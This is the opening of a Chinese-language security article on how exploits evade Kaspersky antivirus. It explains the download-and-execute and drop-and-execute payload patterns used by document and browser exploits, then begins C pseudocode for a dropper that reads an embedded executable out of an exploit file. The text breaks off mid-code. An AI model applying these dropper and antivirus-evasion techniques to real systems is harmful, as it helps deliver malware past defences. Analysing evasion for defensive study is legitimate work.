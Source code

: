 # 漏洞利用与卡巴斯基的对抗之路

0x00 致谢
-------

* * *

特别感谢各位朋友在这一年中对自己工作的支持，无以为报，只能凑合写一些文章来一搏各位的欢心，如有不对之处还请各位不吝指出，感激不尽！

首先感谢以下朋友给予自己的帮助：

泉哥

没谱

instruder

我可爱的同事们

0x01 题记：
--------

* * *

主题是关于漏洞利用与卡巴斯基之间的种种对抗，之所以选择卡巴斯基是因为其在众多杀毒软件中为一个典型，从04、05年的内存查杀到最新流行的行为检测云查杀，卡巴斯基一直紧跟时代步伐并且针对漏洞利用的查杀也越来越准确有效，与诺顿、Bitdefender号称是最难绕过的杀软之一。杀毒软件对文档类漏洞和浏览器漏洞的查杀最为严格，此篇也以上述两类漏洞利用作为示例进行阐述。

漏洞利用技术的发展也是对抗杀毒软件查杀技术的发展，其中可见各种奇技淫巧，令人目不暇接，其中针对卡巴斯基这款杀毒软件的绕过方法更是让人眼前一亮，基本上绕过卡巴斯基的方法对于其他杀软基本可以做到通杀，这也是分析总结漏洞利用与卡巴斯基对抗的目的所在，以一个旁观者的角度来分析两者之间的对抗，更能清晰的理解漏洞利用与杀毒软件之间的对抗发展，管中窥豹可见一斑。

文章中使用的相关代码都是从实际的漏洞利用实例中提取精简而来，并不会实际提供相关漏洞样本，此处还请大家多多见谅。废话不多说，下面开始正题：

0x02 漏洞利用的基本形式
--------------

* * *

MS Office 漏洞的没落，Adobe Reader PDF漏洞的方兴未艾，Flash Player漏洞的强势崛起以及目前浏览器UAF漏洞的中兴，漏洞的形式多种多样但是漏洞利用的基本思路倒没有太大的变化，无非两种形式：下载并执行和释放并执行，可谓万变不离其宗，漏洞利用的最终目的就是把一个程序执行起来，杀毒软件的查杀目的为把这种行为检测出来报警并阻止其运行。 漏洞利用最终执行的伪代码如下：

```
/***********************************************************************/
/* 演示漏洞利用伪代码                                                     */
/***********************************************************************/
#include <windows.h>
void main()
{
    HANDLE hFileHandle;     //主体文件句柄
    HANDLE hExeFile;        //exe程序句柄
    char exploitName[MAX_PATH] = "bin.xxx"; // Exploit主体文件路径
    char tempPath[MAX_PATH] = {0};
    DWORD dwWrite =0;
    DWORD exeBufferOffset = 0x1000;     //exe Exploit主体文件中的偏移

    char exebuffer [1024] = {0};        //缓冲区

    hFileHandle = CreateFileA(exploitName,      //Exploit 主体文件路径
                            GENERIC_READ,
                            FILE_SHARE_READ,
                            NULL,
                            OPEN_EXISTING,
                            NULL,
                            NULL);
    SetFilePointer(hFileHandle,
                    exeBufferOffset,
                    NULL,
                    FILE_BEGIN);

    ReadFile(hFileHandle,exebuffer,sizeof(exebuffer),&dwWrite,NULL);    //读文件
```